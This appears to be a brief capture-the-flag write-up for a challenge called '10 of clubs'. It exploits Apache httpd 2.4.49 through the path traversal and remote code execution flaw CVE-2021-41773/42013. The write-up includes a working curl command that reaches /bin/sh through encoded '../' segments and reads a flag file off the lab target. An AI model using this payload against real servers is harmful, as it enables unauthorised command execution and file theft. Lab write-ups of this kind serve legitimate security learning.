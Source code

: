 # 10 of clubs

> Solved by: Starry-Lord

```
port 12380
```

This port was using Apache httpd 2.4.49 and I found a good research on the subject here:

https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013


I didn't need to get a shell. ls and cat commands were enough to extract the png:


```
curl -vv 'http://172.17.15.117:12380/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo; cat ../secret/safe/flag.png|base64'
```

![](https://i.imgur.com/aYyIBok.png)